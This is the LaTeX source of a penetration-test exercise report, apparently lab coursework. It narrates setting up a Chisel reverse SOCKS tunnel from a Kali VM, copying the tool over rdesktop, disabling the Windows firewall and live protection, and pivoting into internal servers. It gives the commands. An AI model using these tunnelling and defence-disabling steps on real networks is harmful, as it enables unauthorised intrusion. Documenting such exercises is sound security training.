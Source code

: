 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test - Exercise 0b0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Chisel}
    To start off, a chisel server was started in the local kali VM using the following command
    
    \begin{verbatim}
./chisel server --reverse --socks5
    \end{verbatim}
    
    Where we are given a fingerprint and confirmation the server is on. We can then transfer the Chisel folder to the remote desktop using rdesktop. We also want to see
    the ip address we will use on the microsoft host.
    
    \begin{verbatim}
mktemp -d
cp -r Chisel /tmp/<tmp>
ip a
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>
    \end{verbatim}

    We can login use the credentials supplied to log in as a root user. We can also see that the IP we will want to use is 172.24.0.10. Once inside the remote desktop, we can 
    then navigate to the settings and turn off firewall live protection. We can then start the command prompt as admin and navigate to the mounted directory
    with Chisel. From here, we want to run the client which will allow us to pivot from our local host and access other internal servers that we might not have access to.
    
    \begin{verbatim}
chisel.exe client --fingerprint <fingerprint> 172.24.0.10:8080 R:socks
    \end{verbatim}
\end{document}
